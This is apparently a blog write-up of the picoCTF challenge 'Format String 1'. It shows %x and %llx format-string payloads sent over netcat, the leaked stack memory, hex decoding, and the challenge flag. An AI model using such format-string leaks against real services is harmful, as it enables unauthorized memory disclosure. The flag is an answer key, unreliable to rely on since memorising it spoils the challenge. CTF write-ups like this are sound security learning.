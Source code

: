 ```yaml
---
layout: post
title:  "Format String 1"
subtitle: 2024-08-25
date:   2024-08-25
description: Easy format string vulnerability
tags: ["Binary Exploitation", "Format String", "Easy"]
category: [CTF, picoCTF]
---
```


# Challenge Info
description: `Patrick and Sponge Bob were really happy with those
orders you made for them, but now they're curious
about the secret menu. Find it, and along the way,
maybe you'll find something else of interest!`

Download the binary [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1).

Download the source [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1.c).

Connect with the challenge instance here:
`nc mimas.picoctf.net <port>`

author: Connor Chang

![format string 1](/assets/img/formatstring-1/formatstring1.png)

## Attempts

Upon connecting to the netcat listener, we're prompted: `Give me your order and I'll read it back to you:`

Because of the name of the challenge; "**Format String** 1", we already get a pretty big hint. Just from experience, I know that `%x` can be used in format string vulnerabilities to either dump or navigate memory stacks. Naturally, this is the route I took.

```
~ > nc mimas.picoctf.net 63183                               INT 18s
Give me your order and I'll read it back to you:
%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,
Here's your order: 402118,0,6377ea00,0,a64880,a347834,b4da5590,6356fe60,637944d0,1,b4da5660,0,0,6f636970,6d316e34,33317937,3431665f,64303935,7,637968d8,7,74307250,6c797453,9,637a7de9,63578098,637944d0,0,b4da5670,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,454d4100,6e656c6c,4c564c48,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
Bye!
```

After pasting this into [Cyberchef](https://gchq.github.io/CyberChef/) with "From Hex" selected, I started to notice what might be a flag.

![possible flag](/assets/img/formatstring-1/possibleflag.png)

## Solution

After inspecting the initial output, I decided to modify my format string to use `%llx` instead of `%x`. The `ll` modifier stands for "long long," which in C is a data type representing a 64-bit integer. By using `%llx`, I ensured that each stack read would capture a full 64-bit value, meaning 16 hexadecimal digits would be printed instead of just 8. This is important because the flag or other useful data might be stored in a location that requires reading all 16 bytes (instead of 8) to be fully captured.

After using this adjustment, with commas `,` to clearly separate each stack, I got a different result:


```
~ > nc mimas.picoctf.net 63183                            INT 1m 53s
Give me your order and I'll read it back to you:
%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,
Here's your order: 402118,0,7aaeacfeba00,0,1c1f880,a347834,7ffd67ec6cc0,7aaeacddce60,7aaead0014d0,1,7ffd67ec6d90,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,35365f673431665f,7d313464303935,7,7aaead0038d8,2300000007,206e693374307250,a336c797453,9,7aaead014de9,7aaeacde5098,7aaead0014d0,0,7ffd67ec6da0,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,
Bye!
```

I decided to put these hex values through Cyberchef again, and saw what's definitely an encoded flag:

![possible flag](/assets/img/formatstring-1/possibleflag2.png)

After removing the null values, I was left with this:

![jumbled flag](/assets/img/formatstring-1/jumbledflag.png)

From here, the challenge is mostly nonsensical decoding, and it gets really bad (there is a reason it's < 50% positive reviews). I went through it anyways, but I probably won't write how I decoded/solved it, it's not really "hacking" and serves no purpose for this challenge.

flag: `picoCTF{4n1m41_57y13_4x4_f14g_65590d41}`
